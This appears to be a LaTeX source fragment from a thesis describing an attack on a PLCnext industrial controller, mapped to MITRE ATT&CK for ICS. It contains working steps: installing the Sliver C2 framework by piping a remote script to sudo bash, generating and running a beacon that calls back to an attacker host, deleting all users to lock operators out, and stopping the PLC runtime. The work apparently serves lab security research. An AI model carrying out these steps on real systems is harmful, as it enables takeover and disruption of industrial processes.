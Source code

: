 \documentclass[Master,BMR,english]{twbook}
\begin{document}
\section*{Command and Control}

\textbf{Standard Application Layer Protocol (T0869):} The attacker uses the Sliver C2 framework to establish command and control over the PLC.

\begin{listing}[htbp]
\begin{verbatim}
# Installing Sliver on Kali:
curl https://sliver.sh/install | sudo bash
sudo apt install mingw-w64

# Generating Sliver beacon and starting the listener:
sliver > generate beacon --http 192.168.137.246 --os linux --arch arm
sliver > http

# Transfert the baecon and start it from the PLC1
./SLIVER\_BEACON 
\end{verbatim}
\caption{Standard Application Layer Protocol}
\end{listing}

\section*{Inhibit Response Function}

\textbf{Change Credential (T0892) and Service Stop (T0881):} Due to access to WBM, it is possible to delete all users from the PLCnext Application, which means that no one would have access to PLC1 except the Attacker. Additionally the PLC application was stoped , which enables the modified application to be uploaded to the PLC in the next step.

\begin{listing}[htbp]
\begin{verbatim}
# Change or remove credentials in WBM:
Remove all credentials for all users.

# Stop the PLC runtime:
sudo /etc/init.d/plcnext stop
sudo /etc/init.d/plcnext start
\end{verbatim}
\caption{Change Credential and Stop Service}
\end{listing}

\section*{Impair Process Control}
\end{document}
